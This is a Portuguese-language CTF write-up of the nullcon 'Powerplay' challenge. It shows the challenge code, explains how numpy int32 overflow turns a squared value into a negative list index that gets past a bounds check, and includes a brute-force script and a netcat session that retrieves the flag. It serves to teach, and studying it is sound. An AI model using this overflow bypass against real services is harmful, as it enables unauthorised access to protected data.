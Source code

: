 # WriteUp: Powerplay
## Descrição do Desafio
Categoria: misc

Descrição:
> Pump yourself up with power to get an inspirational quote.

### Arquivos
| Arquivo | Descrição |
| ------- | --------- |
| chall.py | Código sendo executado no servidor. |
| solve.py | Script em Python que descobre o número correto. |

> 📥 **Download:** [Arquivos](https://github.com/HawkSecUnifei/Writeups/raw/refs/heads/main/2025/nullcon_CTF/Powerplay/Arquivos.zip)

## Solução
O desafio disponibliza o seguinte código python.

```py
import numpy as np
from secret import flag, quotes

prizes = quotes + ['missingno'] * 4 + [flag] * 24

if __name__ == '__main__':
	print('Welcome to our playground for powerful people where you can pump yourself up and get awesome prizes!\n')
	player_count = int(input('How many players participate?\n'))
	power = np.zeros(player_count, dtype = np.int32)
	for i in range(player_count):
		power[i] = int(input(f'Player {i}, how strong are you right now?\n'))
	ready = False

	while True:
		print('What do you want to do?\n1) pump up\n2) cash in')
		option = int(input())
		if option == 1:
			power = power**2
			ready = True
		elif option == 2:
			if not ready:
				raise Exception('Nope, too weak')
			for i in range(player_count):
				if power[i] < len(quotes):
					print(f'You got an inspiration: {prizes[power[i]]}')
			exit()
		else:
			raise Exception('What?')

```
Analisando esse código, podemos ver que há um vetor `prizes` que contém várias strings e a flag 24 vezes no final, então, precisamos acessar alguma dessas posições em que a flag está.

Observando o funcionamento do código, é primeiro pedido do usuário a quantidade de jogadores e a "força" de cada jogador, após isso, o usuário pode escolher duas opções. A primeira opção "pump up" eleva todos as "forças" de todos os jogadores ao quadrado e a segunda opção "cash in" acessa uma posição do vetor prizes, porém, so irá acessar a posição caso a "força" do jogador seja menor que a quantidade de strings no vetor "quotes".

Portanto, precisamos escolher uma "força" que, ao elevar ao quadrado, resulte em uma posição em que a flag está no vetor de `prizes`, porém, como o vetor `prizes` contém todas as strings de `quotes` e o código não deixa
o usuário acessar alguma posição que seja maior que o tamanho de `quotes`, não podemos acessar as posições que a flag está de maneira tradicional.

Para passar por essa verificação, podemos usar uma propriedade da linguagem python que é os índices negativos.

```py
v[-1] # Última posição
v[-2] # Penúltima posição
v[-3] # Antepenúltima posição
```

Desse modo, precisamos acessar alguma posição entre `-1` e `-24`, que são as posições em que a flag se encontra. Porém, precisamos de algum número que, elevado ao quadrado, resulta em um número nesse intervalo. 
Podemos fazer isso utilizando `integer overflow`.

```py
power = np.zeros(player_count, dtype = np.int32)
```

Como a variável `power` é definido commo um int de 32 bits, podemos encontrar algum número que, elevado ao quadrado, passa do valor máximo de inteiros de 32 bits e resulta em um número negativo. Para fazer isso,
podemos fazer um script simples que testa todos os números de `0` até o maior inteiro possível de 32 bits e verifica se esse número ao quadrado se encaixa no intervalo de `-24` a `-1`.

```py
import numpy as np

def encontra_indice():
    for i in range(2147483647): # Ate maior valor inteiro possivel
        i2 = np.int32(i) ** 2   # Elevando ao quadrado
        if i2 >= np.int32(-24) and i2 < 0: # Verificando se esta no intervalo -24 a -1
            return i, i2

indice, indiceQuadrado = encontra_indice()
print("Número encontrado " +  str(indice))
print(str(indice) + " ao quadrado = " + str(indiceQuadrado))
```

Ao rodar esse script, obtemos o seguinte output.

```
Número encontrado 34716455
34716455 ao quadrado = -15
```

Agora, basta apenas conectar ao servidor e usar esse número como "força" de qualquer jogador

```shell
root@DESKTOP-4IEKTFM:/mnt/c/Users/Caio/Desktop# nc 52.59.124.14 5016
Welcome to our playground for powerful people where you can pump yourself up and get awesome prizes!

How many players participate?
1
Player 0, how strong are you right now?
34716455
What do you want to do?
1) pump up
2) cash in
1
What do you want to do?
1) pump up
2) cash in
2
You got an inspiration: ENO{d0_n0t_be_s0_neg4t1ve_wh3n_y0u_sh0uld_be_pos1t1ve}
```

### Flag: `ENO{d0_n0t_be_s0_neg4t1ve_wh3n_y0u_sh0uld_be_pos1t1ve}`

## Autor
[Membro de Exploitation - CaioMendesRRosa](https://github.com/CaioMendesRRosa)